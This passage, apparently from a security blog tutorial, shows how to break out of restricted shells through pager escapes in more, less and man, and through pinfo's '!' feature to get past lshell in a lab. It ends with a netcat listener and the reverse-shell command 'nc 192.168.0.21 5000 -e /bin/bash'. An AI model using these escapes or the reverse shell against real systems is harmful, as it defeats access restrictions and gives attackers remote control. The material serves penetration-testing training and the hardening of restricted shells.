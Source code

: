 This technique works on both `“more”` and `“less”` pagers.

3.man and pinfo Commands

The command `“man”`, used to display manual pages for Linux commands, also has escape features. Simply use the man command to display any command manual, like this: 

```
$ man ls
```

When the manual for the command `ls` appears, use the same technique we used for the pagers.

![Imagem 14]({{ site.url }}/assets/images/posts/shellescaping/image14.png)

The reason for this to work is due to the fact that `“man”` uses `“less”` or `“more”` as default pagers. Other pagers can be used instead to avoid escapes like this.

`pinfo` is another example of an info command that has escape features. It works just like man.

Let’s use `lshell` this time for a more realistic example. As you can see in the next picture, `lshell` allows just a few commands by default. The `pinfo` command was added to the allowed command list just for this example. Notice that we’ve tried to issue some commands like `“nc”`, `“/bin/bash”` and `“ls /etc”` directly in the shell but they were all blocked, `lshell` restricted their use:

![Imagem 15]({{ site.url }}/assets/images/posts/shellescaping/image15.png)

Let’s open `ls` manual with `pinfo` with the following command:

```
user@kali:~$ pinfo ls
```

After `ls` manual page opens, inside `pinfo` hit “!” (exclamation mark). Notice that this opened a command execution feature, now let’s execute some simple commands, such as the previous `“ls /etc”` that we were not allowed by `lshell` before, and see what we can get:

![Imagem 16]({{ site.url }}/assets/images/posts/shellescaping/image16.png)
![Imagem 17]({{ site.url }}/assets/images/posts/shellescaping/image17.png)

Notice that we successfully bypassed `lshell` restrictions executing a restricted command.

Let’s try again but now using a command that is not in the allowed command list, like `“nc -h”`:

![Imagem 18]({{ site.url }}/assets/images/posts/shellescaping/image18.png)

Notice that we managed to run a command that is not allowed by `lshell` through `pinfo`. 

Now we have everything we need for a real remote shell. Now in our attacker machine (which is configured with IP 192.168.0.21), let’s create a listening socket using port 5000 with the following command:

```
$ nc -lvp 5000
Listening on [0.0.0.0] (family 0, port 5000)
```

We use `pinfo` again in our victim machine but this time we are going to issue the command `“nc 192.168.0.21 5000 -e /bin/bash”` and press ENTER. This command will try to start a connection from the victim to our attacker machine on port 5000 and throw it’s own `/bin/bash` shell to it, this technique is known as “Reverse Shell”. Remember that this shell is not available in `lshell` by default but we managed to have access to it bypassing its restrictions:
